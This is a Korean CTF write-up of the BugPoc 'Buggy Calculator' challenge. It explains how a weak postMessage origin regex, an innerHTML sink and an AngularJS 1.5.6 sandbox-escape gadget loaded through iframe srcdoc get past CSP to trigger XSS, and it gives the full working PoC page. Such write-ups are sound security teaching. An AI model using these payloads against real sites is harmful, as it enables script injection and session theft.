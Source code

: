 ```yaml
---
layout: post
date: 2021-06-11 00:00:11
title: "Buggy Calculator Write Up"
categories: CTF
tags: [XSS]
author:
  - Jeongwon Jo

---
```

## Descriptions

Buggy Calculator 문제는 CSP 및 SOP를 우회하고 XSS를 트리거 하는 문제이다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/1.png?raw=true)

문제로 들어오면 위와 같이 계산기가 있는 것을 볼 수 있고, 우리가 일반적으로 사용하는 방식과 동일하고, 숫자 및 연산자를 제외한 값들은 사용할 수 없다. 일단 여기에서는 따로 할 수 있거나 알 수 있는 게 없기 때문에 코드를 확인 해 보기로 했다.


```html
<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
```
일단 코드를 보니 제일 위에 `meta`를 이용해서 `CSP`를 설정하고 있는 것을 볼 수 있다. CSP가 설정이 되어 있기 때문에 `<script>`, `<img>`와 같은 태그들을 이용해서 XSS 익스 시도를 할 수 있지만 CSP에 의해서 스크립트 실행은 되지 않을 것 이다. 그렇기 때문에 일단 해야 할 것 중 하나는 CSP 우회이다.

```html
		<script src="angular.min.js"></script>
		<script src="jquery.min.js"></script>
		<script src="script.js"></script>
```
밑으로 가서 코드를 확인해 보니 위와 같이 리소스 파일을 랜더링 하는 것을 볼 수 있다. 여기서 중요한 부분은 `angular.min.js` 파일을 랜더링 해온다는 것 이다. ` AngularJS`에서 사용되는 가젯들을 이용해서 XSS 익스를 시도할 수 있는데, 이를 이용하면 `CSP`를 쉽게 우회할 수 있을 거 같다.

```
/*
 AngularJS v1.5.6
 (c) 2010-2016 Google, Inc. http://angularjs.org
 License: MIT
*/
```
` AngularJS`의 버전을 확인해 보니 `1.5.6`인 것을 볼 수 있다. 버전마다 사용하는 가젯이 다르기 때문에 이제 해당 버전을 기반으로 해서 XSS 페이로드를 찾으면 된다. 나는 Owasp PDF에서 찾았다.

```js
function sendEquation(msg){
	theiframe.postMessage(msg);
}
```
```html
<iframe name="theiframe" style="height:65px;width:100%; left:-100px; margin-top:-05px;margin-bottom:-30px;" frameBorder="0" src="frame.html"></iframe>
```
위 리소스 파일들을 보면 `script.js` 파일도 랜더링 하는 것을 볼 수 있는데, 코드를 확인해보면 제일 밑에 위와 같이 `theiframe`라는 `iframe`으로 `postMessage` 메서드를 이용해서 값을 전달해주는 것을 볼 수 있고, 코드를 보면 위와 같이 `frame.html`을 끌어와서 사용하는 것도 볼 수 있다.

```html

<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
		<link href='https://fonts.googleapis.com/css?family=Ubuntu:400,700' rel='stylesheet' type='text/css'>
		<script src="frame.js"></script>
		<style>
		html {
			clear: both;
			font-family: digital;
			font-size: 24px;
			text-align: right;
			letter-spacing: 5px;
		    font-family: 'Ubuntu', sans-serif;
		    overflow: hidden;
		}
		</style>
		<title></title>
	</head>
	<body>
		0
	</body>
</html>
```
위 코드는 `frame.html`의 코드인데 잘 보면 `frame.js`를 끌어와서 사용하는 것을 볼 수 있다. 지금까지 분석을 통해서 알 수 있는 건 게산기를 통해서 `1+1`을 입력 받고, 이를 `postMessage` 메서드를 이용해서 `frame.html`로 전달 하고, `frame.js`에서 특정 로직을 거치고 `<body>`의 삽입하는 거 같다. 즉, 우리가 원하는 값을 `body`의 삽입할 수 있으면 XSS 트리거를 할 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/2.png?raw=true)

즉, 위 부분이 `frame.html`이라고 봐도 무방하다.

```js
window.addEventListener("message", receiveMessage, false);

function receiveMessage(event) {

	// verify sender is trusted
	if (!/^http:\/\/calc.buggywebsite.com/.test(event.origin)) {
		return
	}
	
	// display message 
	msg = event.data;
	if (msg == 'off') {
		document.body.style.color = '#95A799';
	} else if (msg == 'on') {
		document.body.style.color = 'black';
	} else if (!msg.includes("'") && !msg.includes("&")) {
		document.body.innerHTML=msg;
	}
}
```
위 코드는 `frame.js`의 코드이다. 잘 보면 `postMessage` 메서드로 전달 받은 값을 `receiveMessage` 메서드로 받고, 처리하는 것을 볼 수 있다. 이때 조건문을 이용해서 origin을 확인하는 것을 볼 수 있다. 즉, 해당 프레임으로 요청을 보낼 수 있는 건 `http://calc.buggywebsite.com`라는 오리진을 가진 애들이다.

```js
if (!/^http:\/\/calc.buggywebsite.com/.test("http://calc.buggywebsite.com.example.com")) {
    console.log("Same Origin Plz..");
}
> undefined
```
조건문을 위와 같이 확인을 해보면 정규식이 `^` 이기 때문에 `http://calc.buggywebsite.com.example.com`와 같은 오리진을 가진 사이트에서 요청을 보내줘도 필터링에 걸리지 않는 것을 볼 수 있다. `https://bugpoc.com/` 에서 프론트 엔드를 원하는 오리진으로 생성할 수 있는데 이를 이용해서 poc 코드를 올려주게 되면 위 구문은 쉽게 우회할 수 있다.

그리고 오리진 검사 로직을 통과하게 되면 msg 값을 조건문을 상황에 맞게 실행시키는 것을 볼 수 있는데, 여기서 제일 밑 조건문 내부를 보면 msg의 값을 innserHTML 메서드를 이용해서 돔 내부에 삽입하는 것을 볼 수 있는데 HTML 5에서는 innserHTML의 값으로 `<script>`가 들어오게 되면 스크립트 태그를 실행시키지 않기 때문에 `<script>` 태그를 제외한 나머지 태그를 이용해서 XSS 트리거를 해야 한다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/3.png?raw=true)

그래서 이미지 태그를 이용해서 XSS를 트리거 하려 했지만 frame.html에도 csp가 설정이 되어 있어 csp에 걸리는 것을 볼 수 있다. 결국에는 AngularJS 가젯을 이용해서 XSS를 트리거 해야 하는데 `frame.html`에는 `angular.min.js` 파일이 랜더링 되어 있지 않기 때문에 `<script>` 태그를 이용해서 불러와줘야 한다. 그치만 우리는 `<script>` 태그를 사용할 수 없다.

하지만 `<iframe>` 태그의 srcdoc 속성을 이용해서 프레임 내에 `<script>` 태그를 이용하면 iframe 내부에서 별도로 코드를 실행 시키기 때문에 이를 우회하고 스크립트 태그를 실행 시킬 수 있다. 

```html
<iframe srcdoc="<script src=/angular.min.js></script><div ng-app>{{ 7*7 }}</div>"></iframe>
```
그래서 위와 같이 페이로드를 작성해주었다. socdoc를 보면 `<script>` 태그를 이용해서 앵귤러 파일을 랜더링 해준 후에 앵귤러 표현식을 이용해 주었다. `<div>` 태그의 들어 있는 `ng-app`은 이 태그를 기준으로 앵귤러를 사용하겠다는 지시문이다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/4.png?raw=true)

돔으로 넣어주니 iframe 내에서 스크립트 태그가 잘 실행 됐고, 앵귤러 표현식도 잘 되는 것을 볼 수 있었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/5.png?raw=true)

이제 앵귤러 표현식으로 가젯을 이용해서 alert() 함수를 실행 시켜 주면 된다. 가젯을 이용한 XSS Poc 코드는 [Owasp](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)에서 확인할 수 있었다. 

---
## Exploit

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/trigger.gif?raw=true)

---
## Poc (Sollution)

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Poc XSS about Calculate</title>
    </head>
    <script>
        const win = window.open('http://calc.buggywebsite.com/frame.html');
        const exploit = function(){
            setTimeout(function(){ win.postMessage(["<iframe srcdoc=\"<script src=/angular.min.js><\/script><div ng-app>{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(document.domain)');}}</div>\"></iframe>"],'*') }, 3000);
        }
      </script>
    <body>
        <h1>BugPoc XSS Challenge</h1>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type="button" onclick=exploit() value="Trigger">
    </body>
</html>
```

---
## Reference

[https://munhwasudo.tistory.com](https://munhwasudo.tistory.com/entry/2-ngapp-nginit-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0-AngularJS%EA%B0%9C%EB%85%90-%EA%B0%84%EB%8B%A8%ED%95%9C-todo%EA%B0%9D%EC%B2%B4-%EB%A7%8C%EB%93%A4%EC%96%B4%EB%B3%B4%EA%B8%B0)<br>
[https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage](https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage)<br>
[https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)

---
